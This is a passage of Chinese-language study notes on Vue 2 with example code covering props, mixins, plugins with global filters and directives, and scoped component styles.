  name: "Stu",
  data() {
    return {
      msg: '这是props属性',
      myAge: this.age
    }
  },
  methods: {
    addAge() {
      this.myAge++
    }
  },
  // 第一种写法
  // props: ['name', 'age', 'sex']

  // 第二种写法
  // props: {
  //   name: String,
  //   age: Number,
  //   sex: String
  // }

  // 第三种写法
  props: {
    name: {
      type: String, //类型
      required: true//必要性
    },
    age: {
      type: Number, //类型
      default: 99   //默认值
    },
    sex: {
      type: String, //类型
      required: true//必要性
    }
  }
}
</script>
~~~

- 注意：如果在调用方要声明的是数字类型的话，一定要加上v-bind，因为如果不加，那么传入的就是“18”这个字符串，加了之后，那么传入的就是一个js表达式，那么就是解析后的数字18
- **props传进来的属性优先级比组件本身data高**

~~~vue
<!-- 引用Stu组件 -->
<Stu name="lzy" sex="男" :age="18"></Stu>
~~~


### 1.9 mixin混入属性

- 功能：可以把多个组件公用的配置提取成一个混入对象，以后要用，直接引入混合即可

- 使用方式：

  - 定义混合

    ~~~js
    export const mixin = {
        methods: {
            showName() {
                alert(this.name)
                console.log(this)
            }
        },
        mounted() {
            console.log('mount！！！')
        }
    }

    export const mixin1 = {
       data() {
           return {
               x: 99,
               y: 100
           }
       }
    }
    ~~~

  - 使用混合

    - 全局混入（在main.js里面写）：Vue.mixin(xxx)

      ~~~js
      // 引入混合
      // eslint-disable-next-line no-unused-vars
      import {mixin} from "@/mixin";
      // 全局使用，以后所有的组件都会有这个混合
      Vue.mixin(mixin)
      ~~~

    - 局部混入：mixins['xxx']

      ~~~js
      // eslint-disable-next-line no-unused-vars
      import {mixin, mixin1} from '../mixin'
      export default {
        // eslint-disable-next-line vue/multi-word-component-names
        name: "Stu",
        data() {
          return {
            name: '广水一中',
            address: '湖北'
          }
        },
        mixins: [mixin, mixin1],
        mounted() {
          console.log('mount！！！！！！！！！！！！！')
        }
      }
      ~~~


- 注意
  - **若组件内部普通属性和方法和混合里面的重名，那么以组件内部为主**
  - 若是钩子函数，如mounted，则都会执行


### 1.10 插件

- 功能：用于增强Vue
- 本质：包含install方法的一个对象，install的第一个参数是Vue，第二个参数是插件使用者传递的数据
- 定义插件

~~~js
对象.install = function(Vue, options) {
    插件方法体
}
~~~

- 使用插件

~~~js
Vue.use('xxx')
~~~

- 例子

~~~js
export default {
    install(Vue, x, y, z) {
        console.log(x, y, z)

        // 全局过滤器
        Vue.filter('mySlice', function (value) {
            return value.slice(0, 4)
        })

        // 定义全局指令
        Vue.directive('fbind', {
            //指令和元素成功绑定时（一上来）
            bind(element, binding) {
                element.innerText = binding.value * 10
                console.log('bind')
            },
            //指令和元素成功绑定时
            // eslint-disable-next-line no-unused-vars
            inserted(element, binding) {
                console.log('inserted')
            },
            //指令和元素成功绑定时
            update(element, binding) {
                element.innerText = binding.value * 10
                console.log('update')
            }
        })

        // 定义混入
        Vue.mixin({
            data() {
                return {
                    x: 100,
                    y: 200
                }
            }
        })

        // 给Vue原型上添加y一个方法
        Vue.prototype.hello = () => {alert('你好！')}
    }
}
~~~

- 在别的地方使用

~~~vue
<template>
  <div>
    <h2 @click="showName">学校名称：{{name | mySlice}}</h2>
    <input type="text" v-fbind:value="address" />
    <button @click="test">测试hello</button>
  </div>
</template>

<script>
// eslint-disable-next-line no-unused-vars
import {mixin, mixin1} from '../mixin'
export default {
  // eslint-disable-next-line vue/multi-word-component-names
  name: "Stu",
  data() {
    return {
      name: '广水一中111111',
      address: '湖北'
    }
  },
  methods: {
    test() {
      this.hello();
    }
  }
}
</script>
~~~


### 1.11 scoped

- 作用：让样式局部生效，防止冲突
- 写法：/<style scoped>

~~~vue
<template>
  <!-- 组件的结构 -->
  <div class="demo">
    <h2>学校名称：{{schoolName}}</h2>
    <h2>学校地址：{{schoolAddress}}</h2>
    <button @click="showName">点我提示学校名</button>
  </div>
</template>

<script>
  // 组件交互的相关代码（数据方法等）
  export default {
    // eslint-disable-next-line vue/multi-word-component-names
    name: 'School',
    data() {
      return {
        schoolName: '广水一中',
        schoolAddress: '湖北广水'
      }
    },
    methods: {
      showName() {
        alert(this.schoolName)
      }
    }
  }
</script>

<style scoped>
  /*组件的样式 */
  .demo {
    background-color: red;
  }
</style>
~~~


## 2、TodoList案例


# 五、vuex

